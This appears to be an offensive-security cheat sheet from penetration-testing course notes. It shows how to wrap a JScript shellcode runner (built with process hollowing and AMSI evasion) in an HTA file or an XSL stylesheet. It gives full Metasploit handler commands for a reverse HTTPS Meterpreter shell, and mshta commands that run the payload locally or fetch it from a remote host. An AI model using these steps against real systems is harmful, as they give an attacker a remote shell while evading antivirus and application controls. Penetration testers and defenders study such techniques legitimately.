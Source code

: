 ## Arbitrary JScript Using MSHTA ##

1. Create the .js file using method listed in Antivirus Evasion -> Methods -> Full Process Hollowing + AMSI with Jscript.

2. Slightly modify the .js file content as below:

```
<html> 
<head>
</head> 
<body>
<script language="JScript">

ORIGINAL JS FILE CONTENT HERE

</script>
</body> 
</html>
```

3\. Rename the file to runner.hta

4\. Prepare for shell:
```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
set EnableStageEncoding true
set StageEncoder x64/xor_dynamic
exploit
```

5a\. Execute (important, must use full path!)\
`mshta c:\users\offsec\documents\runner.hta`

5b\. Or to create a shortcut, right click on desktop and select New -> Shortcut:\
`C:\Windows\System32\mshta.exe http://IP/runner.hta`

## Arbitrary JScript Using XSL ##

1. Create the .js file using method listed in Antivirus Evasion -> Methods -> Full Process Hollowing + AMSI with Jscript.

2. Slightly modify the .js file content as below:

```
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[

        ORIGINAL JS FILE CONTENT HERE

        ]]>
	</ms:script>
</stylesheet>
```
